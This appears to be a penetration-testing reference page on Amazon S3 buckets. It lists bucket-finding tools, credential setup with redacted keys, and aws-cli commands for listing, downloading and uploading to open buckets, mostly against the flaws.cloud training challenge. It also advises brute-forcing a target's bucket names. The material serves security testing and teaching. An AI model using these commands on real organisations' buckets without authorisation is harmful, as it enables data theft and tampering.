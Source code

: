 # AWS - Service - S3 Buckets

An AWS S3 bucket is a cloud-based storage container that holds files, known as objects, which can be accessed over the internet. It is highly scalable and can store large amounts of data, such as documents, images, and backups. S3 provides robust security through access control, encryption, and permissions management. It ensures high durability and availability, making it ideal for storing and retrieving data from anywhere.

## Tools

* [aws/aws-cli](https://github.com/aws/aws-cli) - Universal Command Line Interface for Amazon Web Services
	```ps1
	sudo apt install awscli
	```
* [digi.ninja/bucket-finder](https://digi.ninja/projects/bucket_finder.php) - Search for public buckets, list and download all files if directory indexing is enabled
	```powershell
	wget https://digi.ninja/files/bucket_finder_1.1.tar.bz2 -O bucket_finder_1.1.tar.bz2
	./bucket_finder.rb my_words
	./bucket_finder.rb --region ie my_words
	./bucket_finder.rb --download --region ie my_words
	./bucket_finder.rb --log-file bucket.out my_words
	```
* [aws-sdk/boto3](https://boto3.amazonaws.com/v1/documentation/api/latest/index.html) - Amazon Web Services (AWS) SDK for Python
	```python
	import boto3
	s3 = boto3.client('s3',aws_access_key_id='AKIAJQDP3RKREDACTED',aws_secret_access_key='igH8yFmmpMbnkcUaCqXJIRIozKVaREDACTED',region_name='us-west-1')

	try:
		result = s3.list_buckets()
		print(result)
	except Exception as e:
		print(e)
	```
* [nccgroup/s3_objects_check](https://github.com/nccgroup/s3_objects_check) - Whitebox evaluation of effective S3 object permissions, to identify publicly accessible files
    ```powershell
    $ python3 -m venv env && source env/bin/activate
    $ pip install -r requirements.txt
    $ python s3-objects-check.py -h
    $ python s3-objects-check.py -p whitebox-profile -e blackbox-profile
    ```
* [grayhatwarfare/buckets](https://buckets.grayhatwarfare.com/) - Search Public Buckets


## Credentials and Profiles

Create a profile with your `AWSAccessKeyId` and `AWSSecretKey`, then you can use `--profile nameofprofile` in the `aws` command.

```js
aws configure --profile nameofprofile
AWS Access Key ID [None]: <AWSAccessKeyId>
AWS Secret Access Key [None]: <AWSSecretKey>
Default region name [None]: 
Default output format [None]: 
```

Alternatively you can use environment variables instead of creating a profile.

```bash
export AWS_ACCESS_KEY_ID=ASIAZ[...]PODP56
export AWS_SECRET_ACCESS_KEY=fPk/Gya[...]4/j5bSuhDQ
export AWS_SESSION_TOKEN=FQoGZXIvYXdzE[...]8aOK4QU=
```


## Open S3 Bucket

An open S3 bucket refers to an Amazon Simple Storage Service (Amazon S3) bucket that has been configured to allow public access, either intentionally or by mistake. This means that anyone on the internet could potentially access, read, or even modify the data stored in the bucket, depending on the permissions set.

* [http://s3.amazonaws.com/<bucket-name>/](http://s3.amazonaws.com/<bucket-name>/)
* [http://<bucket-name>.s3.amazonaws.com/](http://<bucket-name>.s3.amazonaws.com/)

AWS S3 buckets name examples: [http://flaws.cloud.s3.amazonaws.com](http://flaws.cloud.s3.amazonaws.com). 

Either bruteforce the buckets name with keyword related to your target or search through the leaked one using OSINT tool such as [buckets.grayhatwarfare.com](https://buckets.grayhatwarfare.com/).

When file listing is enabled, the name is also displayed inside the `<Name>` XML tag.

```xml
<ListBucketResult xmlns="http://s3.amazonaws.com/doc/2006-03-01/">
<Name>adobe-REDACTED-REDACTED-REDACTED</Name>
```


## Bucket Interations

### Find the Region

To find the region of an Amazon Web Services (AWS) service (such as an S3 bucket) using dig or nslookup, query the DNS records for the service's domain or endpoint.

```bash
$ dig flaws.cloud
;; ANSWER SECTION:
flaws.cloud.    5    IN    A    52.218.192.11

$ nslookup 52.218.192.11
Non-authoritative answer:
11.192.218.52.in-addr.arpa name = s3-website-us-west-2.amazonaws.com.
```


### List Files

To list files in an AWS S3 bucket using the AWS CLI, you can use the following command:

```bash
aws s3 ls <target> [--options]
aws s3 ls s3://bucket-name --no-sign-request --region <insert-region-here>
aws s3 ls s3://flaws.cloud/ --no-sign-request --region us-west-2
```


### Copy, Upload and Download Files

* Copy
	```bash
	aws s3 cp <source> <target> [--options]
	aws s3 cp local.txt s3://bucket-name/remote.txt --acl authenticated-read
	aws s3 cp login.html s3://bucket-name --grants read=uri=http://acs.amazonaws.com/groups/global/AllUsers
	```

* Upload
	```bash
	aws s3 mv <source> <target> [--options]
	aws s3 mv test.txt s3://hackerone.files
	SUCCESS : "move: ./test.txt to s3://hackerone.files/test.txt"
	```

* Download
	```bash
	aws s3 sync <source> <target> [--options]
	aws s3 sync s3://level3-9afd3927f195e10225021a578e6f78df.flaws.cloud/ . --no-sign-request --region us-west-2
	```


## References

* [There's a Hole in 1,951 Amazon S3 Buckets - Mar 27, 2013 - Rapid7 willis](https://community.rapid7.com/community/infosec/blog/2013/03/27/1951-open-s3-buckets)
* [Bug Bounty Survey - AWS Basic test](https://web.archive.org/web/20180808181450/https://twitter.com/bugbsurveys/status/860102244171227136)
* [flaws.cloud Challenge based on AWS vulnerabilities - Scott Piper - Summit Route](http://flaws.cloud/)
* [flaws2.cloud Challenge based on AWS vulnerabilities - Scott Piper - Summit Route](http://flaws2.cloud)
* [Guardzilla video camera hardcoded AWS credential - INIT_6 - December 27, 2018](https://blackmarble.sh/guardzilla-video-camera-hard-coded-aws-credentials/)
* [AWS PENETRATION TESTING PART 1. S3 BUCKETS - VirtueSecurity](https://www.virtuesecurity.com/aws-penetration-testing-part-1-s3-buckets/)
* [AWS PENETRATION TESTING PART 2. S3, IAM, EC2 - VirtueSecurity](https://www.virtuesecurity.com/aws-penetration-testing-part-2-s3-iam-ec2/)
* [A Technical Analysis of the Capital One Hack - CloudSploit - Aug 2 2019](https://blog.cloudsploit.com/a-technical-analysis-of-the-capital-one-hack-a9b43d7c8aea?gi=8bb65b77c2cf)